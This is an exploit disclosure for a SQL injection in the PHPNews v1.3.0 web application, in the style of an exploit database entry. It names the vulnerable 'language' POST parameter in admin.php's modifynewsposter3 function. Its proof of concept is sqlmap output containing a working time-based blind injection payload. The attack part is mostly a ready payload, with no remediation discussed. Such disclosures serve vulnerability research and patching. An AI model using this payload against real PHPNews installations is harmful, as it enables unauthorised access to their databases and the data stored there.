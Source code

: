 # Exploit Title: PHPNews v1.3.0 - Sql Injection(SQLi)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from SQLi - Sql Injection Vulnerability in modifynewsposter3 function in admin.php allowing attackers to execute arbitrary SQL commands via the language parameter in an HTTP POST request.

## ---------------------------------POC-----------------------------
```
POST parameter 'language' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 86 HTTP(s) requests:
---
Parameter: language (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5&newusername=user4&username=user4&password=&password2=&email=user4@test.com&avatar=&language=en_GB' AND (SELECT 4843 FROM (SELECT(SLEEP(5)))XLId) AND 'SZhc'='SZhc
---
```